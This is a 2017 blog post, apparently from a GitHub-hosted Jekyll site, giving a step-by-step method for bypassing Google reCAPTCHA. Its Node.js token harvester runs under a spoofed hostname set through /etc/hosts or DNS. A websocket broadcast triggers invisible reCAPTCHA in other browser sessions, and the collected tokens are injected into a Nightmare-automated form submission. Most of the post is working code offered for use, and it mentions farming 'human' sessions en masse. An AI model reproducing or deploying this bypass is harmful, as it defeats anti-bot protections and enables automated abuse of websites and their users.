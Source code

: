 ```yaml
---
layout: post
title:  Hacking Google reCaptcha
date:   2017-11-10 00:00:00 -0400
categories: jekyll update
---
```


This post is a detailed breakdown of how to bypass Google reCaptcha.

# Background

A page is protected by reCaptcha means that form must be accompanied by `g-recaptcha-response` which is then verified on the backend. Based on the probability calculated by a machine learning algorithm, reCaptcha gives you a range of captchas: from none to very difficult. Instead of having to solve the captcha by hand, this method allows using another browser session cookie which Google deems "human" to bypass a captcha. These "valid" browser sessions can be farmed en masse(I will not cover).

# Overview

I used a simple nodejs server that serves a form to collect Google reCaptcha response. The caveat is: the browser must have the same hostname as the real website which is achieved by changing the `/etc/hosts` file or hosting a DNS server.

![harvestor](https://i.imgur.com/0QqEQDI.png)

```javascript
app.post('/submit', function(req, res) {
  log('info', `Successful Token: ${req.body['g-recaptcha-response']}`);
  const token = req.body['g-recaptcha-response'];
  const timestamp = new Date();
  saveToken(token, timestamp);
  return res.redirect(`${config.remotehost}:${app.get('port')}/harvest`);
});
```

On the other hand, I am using a browser automation tool to submit a form which is protected by recaptcha. We need `g-recaptcha-response` in a hidden field. So when the page is loaded, we `await` for a valid token:

```js
await validToken(pageLoadedTime)
```

And this then sends a message to all connected harvestors via websocket:

```js
function validToken(pageLoadedTime) {
    wss.broadcast('needtoken');
    return new Promise((resolve, reject) => {
        (function wait() {
            for (let token of tokens)
                if (token.timestamp.getTime() > pageLoadedTime)
                    resolve(token.token);
            setTimeout( wait, 200 );
        })();
    });
}
```

We use [invisible recaptcha](https://developers.google.com/recaptcha/docs/invisible) on the harvestor page, because its actions can be programmatically triggered.

```html
<div class="g-recaptcha" data-sitekey="<%= sitekey %>" data-callback="sub" data-size="invisible"></div>
<script>
  function sub(){
    document.getElementById("submit").click();
  }
  var wss = new WebSocket("ws://www.hostname.com:8080", "protocolOne");
  wss.onmessage = function (event) {
    if("needtoken" === event.data) {
      grecaptcha.execute();
    } else {
      console.log("CONNECTED");
    }
  }
</script>
```

Now, there is a way to farm these valid harvestor sessions such that the first 20 or so recaptcha verifications are bypassed. Now the automated browser window has a valid reCaptcha, it needs to fill the hidden field and call the callback function! Great work Google!

```js
return nightmare
.evaluate((key) => {
    document.getElementById("g-recaptcha-response").innerHTML = key;
    checkoutAfterCaptcha(); // uncomment to work!
}, await validToken(pageLoadedTime))
.wait(2000)
.screenshot('ok.png')
.end();
```